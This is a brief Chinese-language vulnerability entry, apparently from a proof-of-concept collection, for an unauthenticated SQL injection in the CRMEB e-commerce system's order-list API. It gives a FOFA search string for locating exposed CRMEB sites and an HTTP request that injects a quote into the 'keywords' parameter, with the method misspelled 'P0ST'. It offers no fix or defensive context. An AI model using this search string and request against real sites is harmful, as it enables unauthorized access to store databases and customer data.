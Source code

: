 ## CRMEB开源电商系统orderlist存在SQL注入漏洞

CRMEB开源电商系统存在未授权sql注入漏洞

## fofa

```
body="/wap/first/zsff/iconfont/iconfont.css" || body="CRMEB"
```

## poc

```
P0ST /api/admin/system/store/order/list?keywords=1' HTTP/1.1
Host:
Content-Type:application/x-www-form-urlencoded
```

